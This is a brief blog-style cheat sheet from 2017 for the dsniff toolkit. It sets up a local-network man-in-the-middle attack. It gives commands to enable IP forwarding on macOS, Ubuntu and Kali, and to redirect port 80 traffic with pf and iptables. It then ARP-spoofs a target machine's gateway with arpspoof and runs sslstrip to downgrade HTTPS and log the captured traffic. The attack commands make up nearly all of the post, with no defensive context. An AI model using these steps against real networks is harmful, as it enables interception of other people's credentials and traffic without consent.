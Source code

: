 title: Dsniff
author: Feng Tao
tags:
  - Information Security
  - Useful Tool
categories: []
date: 2017-04-12 12:42:00
---
# dsniff

## enable ports forward

on mac

	sudo sysctl -w net.inet.ip.forwarding=1
	sudo sysctl -w net.inet.ip.fw.enable=1
	sudo sysctl -w net.inet.fw.verbose=1
	sudo sysctl -w net.inet.ip.fw.verbose=1

on ubuntu

	vim /etc/sysctl.conf

change net.ipv4.ip_forward=0 to net.ipv4.ip_forward=1 

enable it

	sysctl -p

on kali

	echo 1 > /proc/sys/net/ipv4/ip_forward

<!-- more -->

## port redirect

on mac <a href="https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man5/pf.conf.5.html" >pf</a> 

	vim /etc/pf.conf

set configuration

	rdr pass on inet en0 proto { tcp, udp } from any to any port 80 -> 127.0.0.1 port 8000

enable it 

	pfctl -v -n -f /etc/pf.conf
	pfctl -f /etc/pf.conf

on ubuntu <a href="https://help.ubuntu.com/community/IptablesHowTo">iptables</a>

enable iptables

	modprobe ip_tables

port redirect

	iptables -t nat -A PREROUTING -d *.*.*.* -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8000

check

	iptables -t nat --list


delete

	iptables -t nat -D PREROUTING 1

## arp spoof

spoof machine with ip 192.168.0.49 on mac address of 192.168.0.1 by mac address of en0

	sudo arpspoof -i en0 -t 192.168.0.49 192.168.0.1

## ssl strip

	sslstrip -a -l 8000 -w sslstrip.log
	tail -f sslstrip.log